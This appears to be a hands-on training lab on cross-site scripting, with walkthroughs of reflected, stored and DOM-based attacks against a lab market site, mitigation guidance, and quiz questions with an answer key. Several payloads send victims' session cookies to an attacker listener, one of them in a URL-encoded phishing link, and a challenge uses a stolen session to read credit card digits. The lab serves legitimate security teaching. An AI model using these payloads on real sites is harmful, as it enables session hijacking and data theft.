# Web Application Penetration Testing: Cross-Site Scripting (XSS)

This lab introduces users to Cross-Site Scripting (XSS) attacks and discusses techniques for mitigating this type of vulnerability in web sites. 

In this alert, <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>, CISA provides the following definition for cross-site scripting vulnerabilities:

Cross-site scripting vulnerabilities arise when manufacturers fail to properly validate, sanitize, or escape inputs. These failures allow threat actors to inject malicious scripts into web applications, exploiting them to manipulate, steal, or misuse data across different contexts. Although some developers employ input sanitization techniques to prevent XSS vulnerabilities, this approach is not infallible and should be reinforced with additional security measures.`[1]`

Please see the recently released (January 23, 2025) CISA alert referencing a five-year-old vulnerability in jQuery that was added to their <a href="https://www.cisa.gov/known-exploited-vulnerabilities-catalog" target="_blank">Known Exploited Vulnerabilities Catalog</a> based on evidence of active exploitation.

- <a href="https://www.cisa.gov/news-events/alerts/2025/01/23/cisa-adds-one-known-exploited-vulnerability-catalog" target="_blank">CISA Adds One Known Exploited Vulnerability to Catalog</a>


| &#9201; LAB TIME                           |
| ------------------------------------------ |
| This lab is expected to take sixty (60) minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Understand cross-site scripting attacks and how they work.
 - Perform a reflected cross-site scripting attack.
 - Perform a stored cross-site scripting attack.
 - Perform a DOM-based cross-site scripting attack.
 - Review best practices to mitigate cross-site scripting attacks.

## Learner Expectations

 - Learners should be comfortable with Linux, web browsers, HTML, JavaScript and command-line operations.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by managing the attack surface of internet accessible assets.

**NICE Work Roles**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Defensive Cybersecurity, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1563</a>: Implement system security measures
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies

<!-- cut -->

## Scenario

In this lab, you investigate common cross-site scripting attacks in web sites. You start the three most common cross-site scripting attack types: Reflected XSS, Stored XSS and DOM-based XSS. You walk through examples of how each of these attacks can be used against a web site followed with a discussion of best practices to defend against each. The lab concludes with a mini-challenge where you perform a cross-site scripting attack to take over a user's session and gain access to their credit card data.

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali Linux | user | tartans |

### What is Cross-Site Scripting?

According to OWASP, <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">Cross-Site Scripting can be defined as</a>:

Cross-Site Scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.`[2]`

## Phase 1: Cross-site Scripting Attacks

<details>
<summary>
<h3>What is a Reflected Cross-Site Scripting Attack?</h3>
</summary>
<p>

Reflected cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding. For example, a web site's search feature accepts user input that is then displayed as part of the search results. Let's break this down into a few simple steps.

1. A malicious actor enters JavaScript into the search textbox and submits their search request.
2. The script is sent to the web server and processed as regular text.
3. The script is returned to the client as part of the response.
4. The inclusion of this unvalidated and unencoded script could lead to execution in the client web browser.

</p>
</details>

<details>
<summary>
<h3>Reflected Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

Our goal in this part of the lab is to execute a reflected cross-site scripting attack. Based on the definition above, we need to find a place that will let us inject a script that will be processed on the server and then returned as part of the HTTP response. The first step is to locate a potential injection point. The market web site has a search feature that we will attempt to exploit.

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.



3. (**Kali, Firefox**) Click the `PRODUCT SEARCH` link at the top of the page.



4. (**Kali, Firefox**) Enter the following JavaScript into the text box and click the `Search` button.

```
<script>alert("xss");</script>
```



5. (**Kali, Firefox**) This should produce an alert dialog box with the string `xss` displayed as the message. 



The steps below indicate we have discovered a reflected cross-site scripting vulnerability: 
   - We entered JavaScript into the web site's `Search` field.
   - Clicking the `Search` button caused the web browser to make an HTTP POST to the web server.
   - The web server processed our request, then included the JavaScript in the results, which were executed when rendered by the browser.

What are some of the potential impacts of a reflected cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. For example, if an attacker knows you shop on the market web site, they could set up their own server as a listener and then create a phishing email with an encoded hyperlink that contains JavaScript. When executed, the script could add the target user's session cookie to a querystring that calls back to the malicious server, providing the attacker with a usable session token that could be used to log in and impersonate the target user. 

One of the difficult parts about using a reflected attack is timing. In the scenario above, if the targeted user is not currently logged in, they may not have an active session cookie that can be stolen. In the next section we discuss stored cross-site scripting attacks, which can make life easier for malicious actors because their dangerous scripts can be persisted and executed repeatedly by multiple users.


**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*

</p>
</details>

<details>
<summary>
<h3>What is a Stored Cross-Site Scripting Attack?</h3>
</summary>
<p>

Stored cross-site scripting, sometimes referred to as persistent cross-site scripting, occurs when a web site takes untrusted input and later displays that data without any form of validation or encoding. This allows a malicious actor to inject and store scripts that will later be accessed and executed when returned to a client browser.

An example of this would be when a web site accepts a product review, comment or blog post and then displays that text on the web site without using some form of validation or encoding. Let's provide an example with a few simple steps.

1. A malicious actor posts a product review that contains JavaScript similar to the following:

```
<script type="text/javascript">document.location="http://10.5.5.105/?c="+document.cookie;</script>
```

2. The product review for this item, or in our case the malicious script, is stored in the web site's product review database table.

3. Each time someone visits the web page that contains this text, the script will be executed and send a cookie to a server controlled by a malicious actor.

In the next section, you perform a stored cross-site scripting attack.

</p>
</details>

<details>
<summary>
<h3>Stored Cross-Site Scripting attack walk-through</h3>
</summary>
<p>

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.


3. (**Kali, Firefox**) Click the `LOGIN` link on the top navigation menu. On the Login page, enter the following credentials, then click the `Login` button.

```
Email: bcampbell@skills.hub
Password: operating
```



4. (**Kali, Firefox**) After logging in, you are redirected back to the market home page. Click the `View` link on one of the products. This takes you to a product detail page for that item where you can post a product review.





5. (**Kali, Firefox**) Click the `Add a Review` button.



6. (**Kali, Firefox**) Select any number of stars from the `Rating` field.



7. (**Kali, Terminal**) Before saving our review, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server listening on port 80.

```
python3 -m http.server 80
```



8. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting `enter`. Your IP address is the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.113`, but your IP address may be different. Take note of this IP address because we need it in the next step.



9. (**Kali, Firefox**) Go back to the product review page on the market web site. The `Review` text box looks like a great place to inject and store malicious JavaScript. Enter the following text in the `Review` field, making sure to replace the IP address of `10.5.5.113` with your IP address obtained in the previous step.

When this script executes the `document.cookie` command will retrieve the cookies from the web browser and those key/value pairs will be appended to the querystring in the URL. The `document.location` command will then redirect the user's web browser to our malicious web server on `10.5.5.113` with the cookie values included in the HTTP GET request. In the next step, you will see the results of the script execution.

```
<script type="text/javascript">document.location="http://10.5.5.113/?c="+document.cookie;</script>
```



10. (**Kali, Firefox**) Click the `Submit Review` button to save your review. You are immediately redirected to `http://10.5.5.113/?c=PHPSESSID=0878tio7oh2jjdqmb1j8ckviaj`. Your IP address and PHPSESSID cookie value could be different, but the result should be the same. 



11. (**Kali, Terminal**) Return to the terminal window running the Python web server. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.



What just happened here? When you saved your product review, the script you entered was saved to the product review database. When the web site redirected you back to the product's detail page your script was executed.

The following steps below indicate that we have discovered a stored cross-site scripting vulnerability: 
   - We entered JavaScript into the product `Review` text box.
   - Clicking the `Submit Review` button saved your script as a product review.
   - When the web server redirected you back to the product details page all the product reviews were loaded. Due to the lack of encoding of the user-supplied text, the script in our review was executed.
   - The executed script grabbed the PHPSESSID cookie value and appended it to a querystring before redirecting the browser to our malicious web site. 
   - One of the most important things to note is that the script has been stored and will execute for every user that loads this page, potentially providing us with a large number of session IDs that we can use to authenticate as different users of the market web site.

What are some of the potential impacts of a stored cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site that the targeted user is allowed to perform. 

There are a few differences between stored and reflected cross-site scripting attacks:
 - In a stored XSS attack, the script is stored in the application in locations such as databases, files, logs, etc. There is no need for the attacker to use an external source to introduce the script.
  - In a stored XSS attack, the script can be executed repeatedly by multiple victims. For example, if a script is added to a product review, the script could be executed by every user that views that review.

**Knowledge Check Question 3**: *What ten-letter word is another name for stored cross-site scripting?*

In the next section, we discuss DOM-based cross-site scripting attacks.

</p>
</details>

<details>
<summary>
<h3>What is a DOM-based Cross-Site Scripting Attack?</h3>
</summary>
<p>

<a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">Invicti offers one of the better explanations of DOM-based cross-site scripting</a> on their web site: 

The DOM (Document Object Model) is an internal data structure that stores all the objects and properties of a web page. For example, every tag used in HTML code represents a DOM object. Additionally, the DOM of a web page contains information about such properties as the page URL and meta information. Developers may refer to these objects and properties using JavaScript and change them dynamically.

The Document Object Model is what makes dynamic, single-page applications possible. However, it is also what makes DOM-based cross-site scripting possible.

Unlike all other types of cross-site scripting, DOM-based XSS is purely a client-side vulnerability. This means that during a DOM-based XSS attack, the payload never reaches the server. The entire attack happens in the web browser.

DOM-based XSS is similar to reflected XSS because no information is stored during the attack. A DOM-based XSS attack is also conducted by tricking a victim into clicking a malicious URL. `[3]`

What is the difference between DOM-based cross-site scripting and reflected cross-site scripting?

The most important difference between these XSS techniques is where the attack is injected. Reflected cross-site scripting attack payloads are injected on the server side while DOM-based payloads are injected on the client/browser side.

</p>
</details>

<details>
<summary>
<h3>DOM-based Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

What are some of the potential impacts of a DOM-based cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. Because reflected and stored cross-site scripting attacks both involve server side interaction, evidence of these kinds of attacks can be logged and potentially even mitigated using tools such as Web Application Firewalls (WAF). In a DOM-based attack, all the execution takes place on the client side, thus there are often fewer logs and artifacts left behind after this kind of attack.

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub/promos.php`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.


3. (**Kali, Firefox**) You should be looking at a page similar to the screen capture below. Here we can see a list of current promotions, including a link at the bottom of the page that says `Apply Coupons`. When the `Apply Coupons` link is clicked, you are greeted with a dialog box that says `Coupons applied to your account!`. 



4. (**Kali, Firefox**) Let's see if we can exploit this. Right click on the `Apply Coupons` link and select `Inspect` from the menu. The HTML code associated with this button looks like this:

```
<a id="couponlink" href="#" onclick="alert('Coupons applied to your account!');">Apply Coupons</a>
```



5. (**Kali, Firefox**) Below the link we can see a `<script>` tag. Let's expand this.

```
const params = new URLSearchParams(window.location.search);
const action = params.get("apply");
if (action) {
      document.getElementById("couponlink").setAttribute("onclick", action);
   }
   else {
      document.getElementById("couponlink").setAttribute("onclick", "alert('Coupons applied to your account!');");
   }
```



6. (**Kali, Firefox**) Based on the code, we can see that if there is a query string value named `apply` we can modify the behavior of the `onclick` event of this link.

7. (**Kali**) Before we go any further, let's start our malicious web server that will be used to collect session IDs from those that click on our phishing email. We will provide additional details about that in later steps.

8. (**Kali**) Open a terminal window and get the IP address of your Kali machine by typing `ip a`. Look at the IP address associated with `eth0`. In our case it is `10.5.5.113`, but your IP address may be different.


9. (**Kali**) Enter the following command in your terminal window to start a local web server listening on port 9000 on your Kali machine.

```
python3 -m http.server 9000
```



10. (**Kali, Firefox**) Imagine the scenario where a malicious actor creates a link in a phishing email with the hopes of capturing an actively logged-in user's session ID so they can impersonate them on the market web site. We can begin by creating a link like the one below. Make sure to replace the IP address of `10.5.5.113` with the IP address of your Kali VM from Step 8.

```
http://market.skills.hub/promos.php?apply=window.location.href=%27http://10.5.5.113:9000?session=%27%2Bdocument.cookie;
```

When a user clicks the link above that would be included in the email, they are taken to the `promos.php` page. The JavaScript on the page executes and modifies the link based on the code included in the `apply` querystring value. Once the user clicks the `Apply Coupons` page, the `onclick` event fires and the user's browser is redirected to a malicious web server (`http://10.5.5.113:9000`) with the current session cookie value included in the `session` querystring value.


It would probably be a good idea for the malicious actor to take one additional step to obfuscate the link by URL encoding it. We can do that with tools such as CyberChef. This step is not necessary for this lab, thus the details of how to do this will not be covered here.

```
http%3A%2F%2Fmarket%2Eskills%2Ehub%2Fpromos%2Ephp%3Fapply%3Dwindow%2Elocation%2Ehref%3D%2527http%3A%2F%2F10%2E5%2E5%2E113%3A9000%3Fsession%3D%2527%252Bdocument%2Ecookie%3B
```

11. (**Kali, Firefox**) To simulate being the victim of this phishing scam, open a new browser window and paste the link you created in Step 10 into the URL bar then hit `enter`. 


12. (**Kali, Firefox**) You are taken to the `promos.php` page of the market web site. Click the `Apply Coupons` link.

13. (**Kali, Firefox**) Notice that you have been redirected to the malicious web server running on your Kali machine. Note that the URL contains a querystring value named `session` which contains the `PHPSESSID` cookie value. 

```
http://10.5.5.113:9000/?session=PHPSESSID=9iv85t3j2uri6p3j4jn5spnb7v
```



14. (**Kali, Terminal**) Return to the terminal window running the Python web server on port 9000. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.



Had this user been logged in to the market web site, you could place that `PHPSESSID` value in your own cookie for the market web site and impersonate them without further authentication.

**Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*

In the next section, we discuss cross-site scripting mitigation techniques.

</p>
</details>

<br />

## Phase 2: Mitigation Techniques

<details>
<summary>
<h3>Mitigation Techniques</h3>
</summary>
<p>

Phase 1 of this lab covered several ways to perform cross-site scripting attacks against a web site. Phase 2 covers seven ways to help prevent this class of attacks. They are:

1. Use modern frameworks
2. Encode output
3. Validate input
4. Sanitize HTML / Whitelisting
5. Content Security Policy (CSP)
6. Web application firewalls
7. Cookie attributes

#### Use Modern Frameworks

Modern web frameworks such as React, Angular, Vue.js, ASP.NET and others provide many built-in features to help mitigate cross-site scripting attacks. They provide safe default methods to encode and escape potentially dangerous output. Keep in mind that developers can override and bypass these options, so the use of a framework does not guarantee the prevention of cross-site scripting vulnerabilities. It is not uncommon for bugs to be found that allow malicious actors to bypass the default protections provided by frameworks. It is important to keep third-party software and libraries updated.

#### Encode Output

In order to help prevent cross-site scripting attacks, all untrusted and user-supplied data should be treated as potentially malicious. Before displaying this data on a web page, you should consider escaping and encoding the output. 

- As mentioned above, using modern frameworks can provide a lot of help as they are widely used and well tested. Trying to build your own framework or library to handle cross-site scripting is not recommended.

- HTML encoding can be used to replace special characters like `<` and `>`. An example would be encoding this: `<script>alert('XSS');</script>` to: `&lt;script&gt;alert('XSS');&lt;/script&gt;`

The most commonly encoded characters and their conversions include:

| Character | HTML Entity      |
|-----------|------------------|
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&#x27;`         |

#### Validate Input

Input validation is the process of verifying that all data entered into a system by external sources is in a safe and expected format. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">A more detailed explantion</a> offered by the OWASP foundation is provided below:

Goals of Input Validation  
Input validation is performed to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. Input validation should happen as early as possible in the data flow, preferably as soon as the data is received from the external party.

Data from all potentially untrusted sources should be subject to input validation, including not only Internet-facing web clients but also backend feeds over extranets, from suppliers, partners, vendors or regulators, each of which may be compromised on their own and start sending malformed data.

Input Validation should not be used as the primary method of preventing XSS, SQL Injection and other attacks which are covered in respective cheat sheets but can significantly contribute to reducing their impact if implemented properly.

Input Validation Strategies  
Input validation should be applied at both syntactic and semantic levels:

Syntactic validation should enforce correct syntax of structured fields (e.g. SSN, date, currency symbol).
Semantic validation should enforce correctness of their values in the specific business context (e.g. start date is before end date, price is within expected range).
It is always recommended to prevent attacks as early as possible in the processing of the user's (attacker's) request. Input validation can be used to detect unauthorized input before it is processed by the application. `[7]`

#### Sanitize HTML

This technique is very similar to and works in conjunction with the steps listed above in the `Encoding Output` section. To sanitize HTML, you need to remove or modify HTML elements, attributes and scripts that are potentially dangerous. 

- Use libraries such as `DOMPurify` to sanitize HTML. This library is written in JavaScript and works with most modern web browsers. You can find additional information <a href="https://github.com/cure53/DOMPurify" target="_blank">here</a>.

- Whitelisting is a technique that involves allowing only specific HTML elements and attributes considered safe to be displayed. Any output that is not specifically allowed on the whitelist should either be safely encoded or removed.

#### Content Security Policy

A Content Security Policy (CSP) is a feature that exists in most modern web browsers to help prevent cross-site scripting by limiting the resources a browser loads. This feature works by configuring the web server to add a Content-Security-Policy HTTP response header that contains one or more directives such as: `default-src`, `img-src`, `style-src`, `object-src`, `base-uri`, `strict-dynamic`, `frame-ancestors`

For detailed discussions of Content Security Policy information, read the following documents: <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP" target="_blank">Content Security Policy</a> and <a href="https://portswigger.net/web-security/cross-site-scripting/content-security-policy" target="_blank">PortSwigger: Content security Policy</a>.

#### Web Application Firewalls

Web Application Firewalls (WAF) act as a reverse-proxy server sitting in front of a web site and are used to intercept and monitor HTTP traffic. By monitoring HTTP traffic headed inbound to the server from the internet, WAFs can be configured to filter strings suspected of containing XSS, SQL injection and other similar types of attacks. However, due to their location, they can't defend against clients-side cross-site scripting attacks such as DOM-based XSS. 

#### Cookie Attributes

Cookie attributes provide additional information about a cookie that instructs web browsers how to handle a cookie. They provide details that determine everything from the lifespan to the security of the cookie. 

The `HttpOnly` attribute helps protect cookies from cross-site scripting (XSS) attacks by instructing the browser that the cookie should not be accessible via client-side scripts. In the event that a script executes on the client-side, it cannot access a protected cookie and may help reduce leaking sensitive data.

The `Secure` attribute indicates that cookies should only be sent using HTTPS. While most web sites have begun using HTTPS by default, cookies should still have the Secure directive explicitly enabled.

The `Expires` and `Max-Age` cookie attributes should be configured so cookies expire as soon as they are no longer needed. Login cookies and session identifiers, in particular, should be set to expire as quickly as possible.

The `SameSite` cookie attribute forbids the browser from sending cookies to a third-party web site via cross-origin requests. Where possible, it is recommended that you set  `SameSite=Strict`. This causes the web browser to only send cookies for first party context requests. This means the requests must originate from the site that set the cookie, based on the URL.

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*

## Additional Resources

Protecting against cross-site scripting is hard. As is true in most security contexts, taking a multi-layered approach will provide the best results, but may not guarantee that all vulnerabilities have been addressed. The mitigation techniques discussed here are not a complete list and only provide a high-level overview of each of the topics. We encourage you to follow the links and resources provided to learn more about each subject.

<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">Cross Site Scripting Prevention Cheat Sheet</a>

<a href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">DOM based XSS Prevention Cheat Sheet</a>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Exploit the `SITE FEEDBACK` feature of the market web site to execute a stored cross-site scripting vulnerability.
- Use stored cross-site scripting to send a logged-in user's `PHPSESSID` cookie value to a server you control, such as a web server or netcat listener. 
- Use this cookie to impersonate another market user and obtain the last 4 digits of their credit card number from their profile page.
  - Cookies are available in Firefox under the `Storage` tab of the `Web Developer Tools`. 

- Once you have added and tested your malicious script, navigate to `https://skills.hub/lab/tasks` and click the `Submit` button to test your exploit. 



- You can click the `Refresh` button that appears to check the status of the test.



- After the following message appears under the `Status` column, return to the market web site and use your captured `PHPSESSID` cookie value to obtain the targeted user's credit card data.

```
Success -- The user browsed the feedback site with their session token.
```



### Grading Check

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*

`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide using the link below.*

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

This lab provided hands-on experience with common cross-site scripting (XSS) attacks and their defenses. You started with reflected cross-site scripting attacks, then continued with stored and DOM-based attacks. These exercises demonstrated how attackers can exploit various types of cross-site scripting vulnerabilities and how proper mitigation techniques can help reduce these vulnerabilities. 

During this lab, you:

 - Creating reflected, stored and DOM-based cross-site scripting attacks for understanding
 - Using and even combining these different scripting attacks to achieve various results
 - Mitigating techniques you can use to protect websites from those attack methods

Skills exercised:

- S0248: Skill in performing target system analysis
- S0440: Skill in identifying target vulnerabilities
- S0504: Skill in identifying vulnerabilities
- S0667: Skill in assessing security controls
- S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*
 - *`XSS`*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*
 - *`reflected`*

**Knowledge Check Question 3**: *What 10 letter word is another name for stored cross-site scripting?*
 - *`persistent`*

 **Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*
  - *`document object model`*

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*
 - *`&amp;`*

### References

- [1] <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>

- [2] <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP Cross-Site Scripting</a>

- [3] <a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">DOM-based cross-site scripting</a>

- [4] <a href="https://portswigger.net/web-security/cross-site-scripting/reflected" target="_blank">Reflected XSS</a>

- [5] <a href="https://portswigger.net/web-security/cross-site-scripting/stored" target="_blank">Stored XSS</a>

- [6] <a href="https://portswigger.net/web-security/cross-site-scripting/dom-based" target="_blank">DOM-based XSS</a>

- [7] <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">OWASP Input Validation Cheat Sheet</a>

- [8] <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" target="_blank">XSS Filter Evasion Cheat Sheet</a>

- [9] <a href="https://gchq.github.io/CyberChef/" target="_blank">CyberChef</a>

- [10] <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>

- [11] <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>
